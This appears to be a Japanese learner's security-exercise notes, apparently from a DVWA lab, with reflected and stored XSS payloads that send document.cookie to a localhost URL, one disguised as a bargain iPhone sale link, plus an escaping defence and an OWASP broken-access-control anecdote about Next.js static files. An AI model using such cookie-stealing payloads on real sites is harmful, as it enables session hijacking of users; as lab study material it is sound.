 - low(reflected)

```
<script>window.location.href='http://localhost:4280?cookie=' + document.cookie;</script>
```

- low(stored)

```
<a href="#" onclick="window.location.href='http://localhost:4280?cookie=' + document.cookie;">激安！iPhoneセール中！1000円</a>
```

- 防御手段

入力値をエスケープ処理


## 課題4

### owasp TOP10

- Broken Access Control

Nextjsを使っていた時の話。
buildした後に_next/staticにソースが入る。
next/linkで移動した時に_next/staticからソースが取られる。
URL単位で権限の制御をかけていたため、_next/staticのソースは制御がかかっておらず、直接リンクを打ち込めば見れる状態になっていた。

https://cheatsheetseries.owasp.org/IndexTopTen.html